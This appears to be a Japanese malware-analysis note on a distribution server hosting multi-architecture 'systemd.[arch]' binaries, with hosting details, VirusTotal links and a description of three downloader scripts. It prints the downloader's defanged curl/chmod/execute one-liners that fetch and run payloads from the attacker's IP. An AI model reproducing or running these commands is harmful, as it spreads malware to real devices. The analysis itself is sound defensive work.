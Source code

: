 
基本情報
- サーバーがある場所: Chicago, United States
- 組織: [ATOMIC-NETWORKS-1](https://atomicnetworks.co/) (ASN: 399820)
- Webサーバー: Apache/2.4.58 (Ubuntu)

実際に配信サーバーにアクセスできる
- http[:]//23.146[.]184.21/
	- ダウンローダーの配布

![](https://i.imgur.com/OQkvPYI.png)

http[:]//23.146[.]184.21/bins/
- 12種類のアーキテクチャ固有バイナリ
- サイズ範囲: 67K - 170K
- 命名規則: systemd.[architecture]

![](https://i.imgur.com/qKnv0xx.png)




## ダウンローダー
### VirusTotalでの検索
- https://www.virustotal.com/gui/file/42f2ef51bd75c0ae260ae9e1cd2221ed13c702cce12a242a8cc277fd157b17f9
- https://www.virustotal.com/gui/file/cdb35d1d917f58cc22c09d3f0c060b5deae9fd75d89b076af00a6ec52f9accc3
- https://www.virustotal.com/gui/file/5b9210db87cfb74d5a953470ac82b04621cf663632b8f37a000f2aa88f103869

### スクリプト
観測された3つのスクリプト（wayne.sh, carlo.sh, adb.sh）は、基本的に同一の機能を異なるツールで実装している

共通実行パターン
```bash
[download_tool] http[:]//23.146[.]184.21/bins/systemd.[arch]
chmod 777 systemd.[arch]
./systemd.[arch] systemctl[arch_suffix]
```

ツール別実装:
- wayne.sh: `busybox wget`を使用
- carlo.sh: `curl`を使用
- adb.sh: `wget`を使用
この設計によって、環境の制約に関係なく確実にペイロードがダウンロードされるようにしていると考えられる。

wayne.shでの例
```sh
curl http[:]//23.146[.]184.21/bins/systemd.arm; chmod 777 systemd.arm; ./systemd.arm systemctlarm
curl http[:]//23.146[.]184.21/bins/systemd.arm5; chmod 777 systemd.arm5; ./systemd.arm5 systemctlarm5
curl http[:]//23.146[.]184.21/bins/systemd.arm6; chmod 777 systemd.arm6; ./systemd.arm6 systemctlarm6
curl http[:]//23.146[.]184.21/bins/systemd.arm7; chmod 777 systemd.arm7; ./systemd.arm7 systemctlarm7
curl http[:]//23.146[.]184.21/bins/systemd.m68k; chmod 777 systemd.m68k; ./systemd.m68k systemctl
curl http[:]//23.146[.]184.21/bins/systemd.mips; chmod 777 systemd.mips; ./systemd.mips systemctlmips
curl http[:]//23.146[.]184.21/bins/systemd.mpsl; chmod 777 systemd.mpsl; ./systemd.mpsl systemctlmpsl
curl http[:]//23.146[.]184.21/bins/systemd.ppc; chmod 777 systemd.ppc; ./systemd.ppc systemctl
curl http[:]//23.146[.]184.21/bins/systemd.sh4; chmod 777 systemd.sh4; ./systemd.sh4 systemctl
curl http[:]//23.146[.]184.21/bins/systemd.spc; chmod 777 systemd.spc; ./systemd.spc systemctl
curl http[:]//23.146[.]184.21/bins/systemd.x86; chmod 777 systemd.x86; ./systemd.x86 systemctlx86
```